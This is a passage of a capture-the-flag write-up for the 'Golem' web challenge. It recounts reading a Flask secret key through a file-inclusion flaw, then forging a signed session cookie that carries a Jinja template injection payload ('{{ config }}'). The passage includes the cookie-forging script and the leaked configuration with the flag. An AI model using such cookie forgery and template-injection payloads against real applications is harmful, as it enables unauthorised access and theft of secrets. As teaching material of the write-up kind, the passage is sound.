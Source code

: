 ```python
```

This script led us to two other files:

* `flag.py`
* `key.py`

We were unable to directly access `flag.py` via the LFI, as it was filtering out any requests with the word "flag". However, we could access `key.py`, which revealed the secret key being used to sign session cookies: `7h15_5h0uld_b3_r34lly_53cur3d`.

With this key, and a small Python script I wrote, it was now possible to create and sign any custom cookie to be used in requests made to the Golem web application.

Within the `/golem` route, the Flask application creates a template from a string, but does not sanitise the session data that is injected directly into it. Meaning that it is possible to use the session cookie to inject arbitrary server side markup into the Jinja template.

As there was no context object being passed to the template renderer, the only things we had available to us were in the global scope (see http://flask.pocoo.org/docs/0.12/templating/).

However, as the flag was being stored in the global context, the previously created cookie signing script could be modified to inject the `config` object into the output, which would in turn lead to giving us the contents of the `FLAG` variable in the output:

```python
from flask import Flask, session, redirect, url_for, escape, request, render_template_string, render_template

app = Flask(__name__)

@app.route('/')
def index():
    session['golem'] = "{{ config }}"
    template = '{{ config }}'
    return render_template_string(template)

app.secret_key = '7h15_5h0uld_b3_r34lly_53cur3d'
```

Now, after running the script above, we could visit the local web app being served, grab the session cookie from it, and re-use that when making a POST request to the `/golem` route of the Golem web app, which outputs the below:

```
<Config {'JSON_AS_ASCII': True, 'USE_X_SENDFILE': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_DOMAIN': None, 'SESSION_COOKIE_NAME': 'session', 'SESSION_REFRESH_EACH_REQUEST': True, 'LOGGER_HANDLER_POLICY': 'always', 'LOGGER_NAME': 's', 'DEBUG': False, 'SECRET_KEY': '7h15_5h0uld_b3_r34lly_53cur3d', 'EXPLAIN_TEMPLATE_LOADING': False, 'MAX_CONTENT_LENGTH': None, 'APPLICATION_ROOT': None, 'SERVER_NAME': None, 'PREFERRED_URL_SCHEME': 'http', 'JSONIFY_PRETTYPRINT_REGULAR': True, 'TESTING': False, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'PROPAGATE_EXCEPTIONS': None, 'TEMPLATES_AUTO_RELOAD': None, 'TRAP_BAD_REQUEST_ERRORS': False, 'JSON_SORT_KEYS': True, 'JSONIFY_MIMETYPE': 'application/json', 'SESSION_COOKIE_HTTPONLY': True, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SESSION_COOKIE_SECURE': False, 'TRAP_HTTP_EXCEPTIONS': False}>
```

**Flag:** `ASIS{I_l0v3_SerV3r_S1d3_T3mplate_1nj3ct1on!!}`

